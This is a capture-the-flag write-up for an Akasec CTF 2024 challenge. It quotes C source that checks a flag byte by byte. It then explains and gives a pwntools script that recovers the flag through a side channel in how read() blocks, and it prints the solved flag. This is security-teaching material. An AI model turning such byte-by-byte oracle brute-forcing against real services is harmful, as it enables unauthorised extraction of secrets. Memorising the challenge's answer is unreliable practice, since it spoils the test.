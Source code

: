 
# Description

![](../media/Screenshot%202024-06-10%20at%2016-05-16%20Akasec%20CTF%202024.png)

## ATTACHEMENT:
```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
	char input[1];
	char buffer[1024];
	int bytes;
	int correct = 1;
	
	const char *flag = getenv("FLAG");
	if (!flag) {
		flag = "AKASEC{this_is_just_a_fake_flag}";
	}

	fflush(stdin);
	fflush(stdout);
	write(1, "Can you guess the correct flag?\nFlag: ", 38);

	for (size_t i = 0; i < strlen(flag); i++) {
		bytes = read(0, input, 1);
		if (bytes == -1)
			return (perror("read"), 1);
		if (bytes == 0) // ctrl+d
			break;
		if (flag[i] != input[0]) {
			correct = 0;
			break;
		}
	}
	
	// reading rest of input
	while (input[0] != '\n' || bytes == 0) {
		bytes = read(0, buffer, 1024);
		if (bytes < 1024)
			break;
	}

	if (correct)
		printf("Access Granted\n");
	else
		printf("Access Denied\n");

	return 0;
```

this code read byte by byte from `stdin` and then compare each byte with the corresponding byte in `flag`, after that it clears the buffer and write `access Denied` or `access Granted` according to value of `correct`


# solution

the solution here is to brute force the flag byte by byte, to do this we can use the loop that clears the buffer to know if the character is correct or not, here's an example:

if we provide as input a character x followed by 1024 random (it shouldn't be part of the flag) bytes, the program will first read x then we have two possibilities here:
- x is correct then it'll move to the next byte (which should be incorrect) then exit form the loop, the size of the buffer will now be 1023 bytes so the loop that clears the buffer will finish after one read.
![](../media/Screen%20Shot%202024-06-10%20at%206.35.10%20PM.png)

- x is incorrect, the loop will exit and the size of the buffer will be 1024 bytes, so the loop that clears the buffer will block in the second read
![](../media/Screen%20Shot%202024-06-10%20at%206.37.28%20PM.png)

we can use this to brute force flag byte by byte!

```py
from pwn import *
import time

payload = list('.' * 1023)

printable = """0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ """

def remote_is_connected(p):
        recvd = p.recv(timeout=0.1)
        if len(recvd) == 0:
                return True
        else:
                return False

def solve():
        flag = ""
        keep = 1
        i = 0
        while keep:
                keep = 0
                payload.append(".")
                for letter in printable:
                        p = remote("localhost", 4448)
                        time.sleep(0.1)
                        p.recv()
                        payload[i] = letter
                        p.sendline("".join(payload).encode())
                        if not remote_is_connected(p):
                                keep = 1
                                print(letter)
                                flag += letter
                                break

                        p.close()
                i += 1
        return flag

if __name__ == "__main__":
        with context.quiet:
                res = solve()

        print("-------------")
        print(res)
```

Note: you may need to adjust `time.sleep` because of connection delay

flag: `AKASEC{why_d035_r34d_bl0ck_h3r3!!!}`